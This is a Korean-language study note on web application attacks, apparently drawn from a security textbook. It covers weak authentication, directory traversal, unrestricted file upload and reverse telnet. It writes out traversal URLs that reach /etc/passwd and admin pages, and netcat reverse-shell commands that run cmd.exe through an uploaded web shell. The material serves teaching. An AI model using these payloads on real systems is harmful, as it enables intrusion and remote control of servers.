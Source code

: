 ## 취약한 인증 및 세션 관리
### 취약한 패스워드 설정
### 사용자 측 데이터를 이용한 인증
- 세션이나 쿠키로 수신한 인증 허용 값이 유효한 인증인지 확인할 때, 공격자가 전달해주는 값(아이디 및 사용자 고유번호 등)을 이용해 해당 인증의 소유자(Identity)를 구분한다.
즉, 공격자는 세션 인증 값은 그대로 사용하고 UserNo 값만 변경함으로써 다른 계정으로 로그인한 것처럼 웹 서비스를 이용할 수 있게 된다.
이러한 문제점은 기본적으로 최초 인증 이후에 인증과 자신의 신분을 밝히는 주체를 클라리언트에게 넘겼기 때문이다. 이처럼 인증에서뿐만 아니라 데이터의 신뢰도에 대한 증명의 권한을 클라이언트에게 넘기면 클라이언트는 얼마든지 그것을 악용할 수 있다. 웹의 많은 취약점을 그저 편리하다는 이유로 자신이 적용해야할 통제를ㅋ ㅡㄹ라이언트에게 넘기는데 있음을 기억해야 한다.

## 직접 객체 참조
파일, 디렉터리, 데이터베이스 키와 같이 내부적으로 구현된 객체에 대한 참조가 노출될 때 발생한다. 접근 통제에 의한 확인이나 다른 보호 조치가 없다면 공격자는 권한 없는 데이터에 접근하기 위해 노출된 참조를 조작할 수 있다.

### 디렉터리 탐색
웹 브라우저에서 확인 가능한 경로의 상위로 탐색하여 특정 시스템 파일을 다운로드하는 공격 방법
자료실에 올라간 파일을 다운로드할 때 전용 다운로드 프로그램이 파일을 가져오는데, 이때 파일 이름을 필터링하지 않아서 발생하는 취약점
게시판 등에서 첨부파일을 다운로드할 대 다음과 같이 down.jsp 형태의 SSS를 주로 사용한다.
http://www.wishfree.com/board/download.jsp?filename=사업계획.hwp
그렇다면 게시판에서 글 목록을 보여주는 http://www.wishfree.com/board에 위차한다면 존재하는 list.jsp 파일을 어떻게 다운로드할 수 있을까?
이런 경우에는 주소창에 다음 주소를 입력한다.
http://www.wish.free.com/board/download.jsp?filename=../list.jsp
http://www.wish.free.com/board/download.jsp?filename=../admin/adminlogin.jsp
http://www.wish.free.com/board/download.jsp?filename=../download.jsp
http://www.wish.free.com/board/download.jsp?filename=../../../../../../etc/passwd
위와 같이 입력하면 실제로 /etc/passwd 파일을 다운로드하는 것이 가능했따면, 우리는 웹 소스가 있는 디렉터리에서 7번째의 상위 디렉터리가 루트 디렉터리임을 알 수 있다. 물론 한 번에 몇 번째인지 알아낼 수 없고 대략 4~9번재 사이라고만 짐작할 수 있기 때문에 몇 번의 시행착오를 거쳐야 한다. 이는 download.jsp의 인수 값인 파일 이름에서 특수문자 등이 존재하는지 여부를 필터링하지 않아 발생하는 취약점이다. 따라서 파일 다운로드 전용 프로그램을 작성하여 사용할 때는 위의 예처럼 ..이나 / 문자열에 대한 필터링이 없으면 공격자가 상위로 올라가 특정 파일을 열람할 수 있으므로 ../과 / 문자를 필터링해야한다.

### 파일 업로드 제한 부재
클라이언트에서 서버 측으로 임의의 파일을 보낼 수 있는 취약점은 웹서버가 가질 수 있는 가장 치명적인 
첨부파일로 악의적인 파일을 업로드하고 실행시키는 것. 이때 첨부파일로 업로드하는 악성 코드는 대부분 웹쉘이다.
일반적인 첨부파일이 아니더라도, 이력서에 사진 올리는 곳에도 서버 측에 파일을 보낼 수 있는 경로가 모두 이용될 수 있다. 또한 서버 측에 파일을 보내는 방법이 노출되어 있는 경우 외에, 개발하는 과정에서 또는 운영자가 사용하기 위해 만들어놓은 파일 업로드 코드가 발견되어 공격자에게 악용되는 경우도 있다.

### 리버스 텔넷
웹 해킹을 통해 시스템의 권한을 획득한 후 해당 시스템에 텔넷과 같이 직접 명령을 입력하고 확인할 수 있는 쉘을 획득하기 위한 방법.
방화벽이 존재하는 시스템을 공격할 때 자주 사용된다.
일반적으로 웹 서버는 방화벽 내부에 존재하는데, 웹 서버는 80번 포트를 이용한 웹 서비스만 제공하면 되기 때문에 방화벽은 외부 인터넷을 사용하는 사용자에 대해 80포트만을 허용한다. 이런 경우에는 웹 서버의 텔넷이 열려 있어도 방화벽으로 인해 공격자가 외부에서 접근할 수 없다.
심화된 공격을 하기 위해서는 텔넷과 유사한 접근 권한을 획득하는 것이 매우 중요한데, 이때 리버스 텔넷이 유용하다. 방화벽에서 인바운드 정책(외부에서 방화벽 내부로 들어오는 패킷에 대한 정책)은 80번 포트 외에 필요한 포트만 빼고 다 막아 놓지만, 아웃바운드 정책(내부에서 위부로 나갈 때에 대한 정책)은 별다른 필터링을 수행하지 않는 경우가 많다. 리버스 텔넷은 바로 이런 허점을 이용한다.
공격자의 PC에 텔넷 서비스가 열려 있다면 웹 서버에서 공격자로 텔넷 접속이 가능할까? 물론 가능하다. 방화벽의 아웃바운드 정책이 열려 있다면 말이다.
그렇다면 웹 서버에서 공격자 PC로 텔넷 연결을 허용하고 있는 상황을 공격자가 이용할 수는 없을까? 가능하다. 이것이 바로 리버스 텔넷이다. 하지만 웹 서버에서 공격자 PC로 텔넷 접속을 하려면 그 전에 웹 서버에서 권한을 획득해야 한다. 권한 획득 시에는 보통 파일 업로드 공격을 이용하는데 웹 쉘 업로드를 통해 시스템에 명령을 입력할 수 있는 명령창을 얻는 것이다. 그리고 서버 측에 리버스 텔넷을 위한 툴을 업로드하는데, 보통 nc(netcat)라는 툴을 많이 쓴다.
웹 브라우저를 이용한 명령창을 얻었다고 가정하고 nc 파일을 업로드하여 리버스 텔넷을 실행하는 과정을 자세히 살펴보자.
1) 명령창 획득 : 파일 업로드 등을 통해 공격자가 명령을 입력할 수 있는 명령창을 획득한다.
2) 리버스 텔넷용 툴 업로드 : nc와 같은 리버스 텔넷용 툴을 서버 게시판의 파일 업로드 기능을 이용해 업로드한다.
3) 공격자 PC 리버스 텔넷 데몬 활성화 : 서버에서 리버스 텔넷을 보내면 이를 받아 텔넷을 열 수 있도록 다음과 같이 리버스 텔넷 툴을 실행시킨다.
nc -l -p 80
4) 획득한 명령창을 통해 공격자에게 리버스 텔넷을 보내준다. 업로드한 nc 파일이 위치한 전체 경로를 입력해줘야 하며 이때 공격자 IP는 192.168.137.1이다.
c:\inetpub\wwwroot\bbs\upload\nc -e cmd.exe [공격자 IP] 80
